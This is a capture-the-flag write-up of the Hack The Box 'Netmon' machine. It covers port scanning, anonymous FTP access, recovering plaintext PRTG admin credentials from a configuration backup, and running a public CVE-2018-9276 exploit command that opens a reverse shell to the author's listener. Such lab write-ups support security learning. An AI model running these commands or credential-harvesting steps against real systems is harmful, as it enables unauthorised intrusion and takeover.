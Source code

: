 ```yaml
---
title: "[EASY] HTB-Netmon"
draft: false
tags:
  - htb
  - windows
  - ftp
  - prtg
---
```

## Information Gathering

### Rustscan

Rustscan found several ports open but main ones seemed to be **FTP**,**HTTP**, and **SMB**.

```bash
┌──(yoon㉿kali)-[~/Documents/htb/netmon]
└─$ rustscan --addresses 10.10.10.152 --range 1-65535
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy :
: https://github.com/RustScan/RustScan :
--------------------------------------
🌍HACK THE PLANET🌍

<snip>
Host is up, received syn-ack (0.30s latency).
Scanned at 2024-03-26 01:08:27 EDT for 1s

PORT STATE SERVICE REASON
21/tcp open ftp syn-ack
80/tcp open http syn-ack
135/tcp open msrpc syn-ack
139/tcp open netbios-ssn syn-ack
445/tcp open microsoft-ds syn-ack
5985/tcp open wsman syn-ack
47001/tcp open winrm syn-ack
49664/tcp open unknown syn-ack
49665/tcp open unknown syn-ack
49666/tcp open unknown syn-ack
49667/tcp open unknown syn-ack
49668/tcp open unknown syn-ack
49669/tcp open unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.12 seconds
```

## Enumeration

### SMB - TCP 445

  

Null login was not allowed for SMB:

  

![](https://i.imgur.com/rQvXpPR.png)


  

crackmapexec revealed device name: **netmon**

  

![](https://i.imgur.com/5pKgAQD.png)


  

### HTTP - TCP 80

  

Webpage had a login page for **PRTG Network Monitor** which is used to monitor network traffic:

  

![](https://i.imgur.com/5eWOOBK.png)



  

#### Directory Bruteforce

  

Webpage was using **.htm** extension, so I ran feroxbuster with **htm** extension:

  

`sudo feroxbuster -u http://10.10.10.152 -n -x htm -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

  
  

![](https://i.imgur.com/UwUn6KH.png)


  

I see some paths that leads to *.htm but nothing looked very intriguing at the moment.

  

#### Default Creds

  

Searching about **PRTG Network Monitor** for a bit, I found out it is vulnerable to Authenticated RCE.

  

![](https://i.imgur.com/QHK34TL.png)



  
  

As the default credentials are **prtgadmin**:**prtgadmin**, I tried it but it didn't work:

  

![](https://i.imgur.com/h4A7IvI.png)


Since PRTG Network Monitor is vulnerable to Authenticated RCE, I would have to discover valid credentials somewhere.

### FTP - TCP 21

  

Luckily, anonymous login was allowed on FPT:

  

![](https://i.imgur.com/x8t1fJq.png)


  

Listing the files, I realized I am inside root directory of the system:

  

![](https://i.imgur.com/JJCEY6O.png)


  

To my surprisce, I was able to obtain user.txt from **Users/Public/Desktop**:

  

![](https://i.imgur.com/mFDrnMS.png)



  

This must have been my fastest user.txt ever I believe...

  

## Getting Creds for prtgadmin

  

According to [this reddit post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/), passwords are exposed in plain text in backup:

  

```
Automatically generated backups under:

C:\ProgramData\Paessler\PRTG Network Monitor\Configuration Auto-Backups\

Automatically generated temporary files that may exist:  

C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old

C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.nul

If you run PRTG Network Monitor in cluster mode, please also remember to remove the configuration backups in the PRTG data path on every failover node.

Also remember that you may have additional copies of the PRTG Configuration.dat file for backup purposes. We recommend deleting all affected copies of this file.
```

  

Going to `/ProgramData/Paessler/PRTG Network Monitor`, I saw bunch of **PRTG Configuration** files:

  

![](https://i.imgur.com/h7gHJKJ.png)


  

Downloading and examining **PRTG Configuration.old.bak**, I obtained potential credentials: **prtgadmin:PrTg@dmin2018**

I tired logging-in to the system with the found credentials but it didn't work. 

However, changing **2018** to **2019** it let me in:

  

![](https://i.imgur.com/XDfJO4Q.png)


  

Now using the exploit found from [this github](https://github.com/A1vinSmith/CVE-2018-9276), I can get a shell as the system:

  

`python exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.17 --lport 1337 --user prtgadmin --password PrTg@dmin2019`

  

![](https://i.imgur.com/xM9ndXs.png)


  

![](https://i.imgur.com/EqLylDc.png)
